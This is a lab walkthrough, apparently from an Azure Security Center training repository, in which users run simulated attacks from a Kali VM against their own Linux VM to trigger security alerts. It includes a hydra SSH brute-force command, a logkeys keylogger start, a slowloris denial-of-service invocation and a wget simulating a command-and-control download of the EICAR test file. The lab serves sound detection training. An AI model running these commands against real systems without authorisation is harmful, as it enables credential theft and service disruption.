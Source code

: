 ﻿# 05 - Linux Detections
##### Estimated lab time: 25 minutes
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation than is covered in this lab*<br>

In this lab we will explore the new Linux detection's in ASC by executing attacks in a Kali Linux VM that you are going to deploy. You will connect to your deployed Linux VM (Linux-0) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
***Note**: time to create the Kali Linux VM is approx 5 minutes. Make sure to add a port that enables you to connect.*
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and **create** the VM

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/kali_marketplace.png)

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Kali_Config.png)


***Note**: you don't have to wait until the deployment is complete. Proceed with the next exercise*

#### 2 - Create Linux users 
1. Connect to your Linux VM (Linux-0) that you have deployed earlier (note: not the Kali VM), using your favorite SSH tool

(If you have connections issues, validate that you requested JIT access).

2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command <br>
***Note**: Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.*

```powershell
sudo adduser <userName>
```
![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/adduser_example.PNG)

#### 4 - Executing a brute force attack
1. Connect to the **Kali Linux VM** with SSH (ensure that your VM deployment in step 1 was successful)
2. Navigate to the folder **/usr/share/wordlists**

```powershell
cd /usr/share/wordlists
```

3. Upload the **<a href="https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```text
sudo wget https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```text
sudo wget https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt

```
Validate the the files exist:

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/ls_users.png)


4. Copy the IP address from the Linux Victim VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your **Kali VM**, and replace "**IP**" with **yourLinuxVM** public IP address
```text
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Leave the command to run until it finishes, and the result should show you the username and the password that was found.

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below in the **Linux Victim VM** to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```text
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below in the Linux Victim VM:
```text
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in the Linux Victim VM:<br><br>

1. First, obtain the IP address of the target:
```text
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```text
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension). Or alteratively, use this "wget http://213.211.198.58/download/eicar.txt"*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this(it may take couple of minutes till the alerts will appear):

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux.png)

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux2.png)

<br><br>
### Continue with the next lab
06 - Logic Apps integration, click <a href="https://github.com/yaniv-shasha/Azure-Security-Center-1/tree/master/Labs/06%20-%20Logic%20App%20integration" target="_blank">here</a>